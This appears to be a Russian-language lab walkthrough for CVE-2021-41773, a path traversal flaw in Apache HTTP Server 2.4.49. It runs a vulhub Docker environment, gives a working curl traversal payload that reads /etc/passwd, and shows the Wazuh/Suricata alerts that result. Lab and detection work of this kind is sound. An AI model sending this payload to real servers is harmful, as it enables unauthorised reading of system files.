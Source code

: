 # CVE-2021-41773

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)

Ошибка была обнаружена в изменении нормализации путей в Apache HTTP Server 2.4.49. Если файлы за пределами этих каталогов не защищены обычной конфигурацией по умолчанию "require all denied", запросы на их чтение могут быть успешными.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/httpd/CVE-2021-41773

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу http://ваш-ip:8080 будет доступна дефолтная страница с фразой "It works!"

<figure><img src="../../.gitbook/assets/cve-2021-41773(1).png" alt=""><figcaption></figcaption></figure>

Для воспроизведения уязвимости выполните команду:

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/cve-2021-41773(2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/cve-2021-41773(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/cve-2021-41773(4).png" alt=""><figcaption></figcaption></figure>

